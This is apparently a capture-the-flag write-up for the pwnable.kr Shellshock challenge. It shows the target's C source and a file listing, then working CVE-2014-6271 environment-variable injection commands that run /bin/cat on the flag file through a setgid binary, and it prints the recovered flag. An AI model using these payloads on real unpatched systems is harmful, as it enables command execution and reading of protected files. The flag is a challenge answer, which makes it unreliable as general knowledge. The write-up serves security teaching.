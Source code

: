 # Pwnable.kr - Shellshock

Lets view the source code for this program

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

So this binary uses ```Effective Group ID``` for its ```UID``` and ```GID```

Lisiting the files with their permission,

```c
shellshock@pwnable:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 115 root root             4096 Dec 22  2020 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

So the ```flag``` and ```shellshock``` are owned by the same user ```root``` and group ```shellshock_pwn```

```Shellshock``` is a famous bash shell vulnerability, for more [reference](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)

Lets try running the program normally,

```c
shellshock@pwnable:~$ ./shellshock 
shock_me
```

Lets test for shellshock vulnerability in this bash shell

```c
shellshock@pwnable:~$ env x='() { :; }; echo monish' bash -c echo hacked

shellshock@pwnable:~$ env x='() { :; }; echo monish' ./bash -c echo hacked
monish

```

So there is no ```shellshock``` in the system's bash

But there is a ```shellshock``` vulnerability in ```/home/shellshock/bash```, since it printed the value enclosed inside the single quote

Lets try to read the flag

```c
shellshock@pwnable:~$ env x='() { :; }; /bin/cat flag' ./bash -c echo hacked
/bin/cat: flag: Permission denied
Segmentation fault (core dumped)
```

It because of the permission error

Lets try it with ```shellshock``` binary, since they are under the same permission it should display the flag

```c
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

Yay!! we got the flag ```only if I knew CVE-2014-6271 ten years ago..!!```



